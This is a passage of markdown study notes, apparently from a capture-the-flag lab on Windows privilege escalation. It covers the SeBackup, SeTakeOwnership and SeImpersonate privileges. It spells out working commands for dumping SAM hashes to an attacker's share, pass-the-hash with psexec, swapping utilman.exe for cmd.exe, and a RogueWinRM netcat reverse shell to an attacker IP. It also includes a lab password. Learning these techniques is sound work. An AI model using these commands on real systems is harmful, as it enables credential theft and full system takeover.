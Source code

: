 		- Share it using `python3 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`, this will create a share named public pointing to the `share` directory.
		- Use `copy C:\Users\THMBackup\sam.hive \\attack-ip\public\` and `copy c:\Users\THMBackup\system.hive \\attack-ip\public\` to transfer the files.
	- Use `python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL` to retrieve the user's password hashes.
	- Using the found Administrator hash, perform a Pass-the-Hash attack to gain access `python3 /opt/impacket/examples/psexec.py -hashes <admin-hash> administrator@<ip>`.
- #### *SeTakeOwnership*
	- This privilege allows a user to take ownership of any object on the system, including files and registry keys.
	- For example, we could search for a service running as SYSTEM and take ownership of the service's executable.
	- Abusing `utilman.exe` which is a built-in Windows application used to provide Ease of Access options during lock screen.
		- Take ownership of `utilman.exe` using `takeown /f C:\Windows\System32\Utilman.exe`.
		- Being the owner of a file doesn't necessarily mean that you have privileges over it, but you can assign yourself any privilege you need.
		- Give full permissions over `utilman.exe` using `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`.
		- Replace the `utilman.exe` with a copy of `cmd.exe` using `copy cmd.exe utilman.exe`.
		- To trigger `utilman`, lock the screen and click on the "Ease of Access" button which runs `utilman.exe` with SYSTEM privileges.
- #### *SeImpersonate / SeAssignPrimaryToken*
	- These privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.
	- In Windows systems, LOCAL SERVICE AND NETWORK SERVICE ACCOUNTS already has these privileges since these accounts are used to spawn services using restricted accounts.
	- Internet Information Service (IIS) will also create a similar default account called `iis apppool\defaultapppool` for web applications.
	- To elevate privileges using such accounts
		- Spawn a process so that users can connect and authenticate to it for impersonation to occur.
		- Find a way to force privileged users to connect and authenticate to the spawned malicious process.
	- Use `RogueWinRM` found [here](https://github.com/antonioCoco/RogueWinRM) to accomplish both conditions above.
		- The `RogueWinRM` exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges.
		- Port 5985 is typically used for the WinRM service, which is simply a port that exposes a PowerShell console to be used remotely through the network (like SSH but using PowerShell).
		- If for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting.
		- And if the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.
	- Before exploiting run a netcat listener using `nc -lvnp 4442`.
	- Use the Web shell to trigger the `RogueWinRM` exploit using `RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe <attacker-ip> 4442`.
		- `-p` specifies the executable to be run by the exploit, which is `nc64.exe` in this case.
		- `-a` used to pass arguments to the executable. Since we want the `nc64` to establish a reverse shell against our attacker machine, the argument to pass to netcat will be `-e cmd.exe <attacker-ip> 4442`.
## *Vulnerable Software*
- #### *Unpatched Software*
	- Software and drivers could present various privilege escalation opportunities, since organizations and users may not update them as often.
	- Use the `wmic` tool to list software installed on the system `wmic product get name,version,vendor`.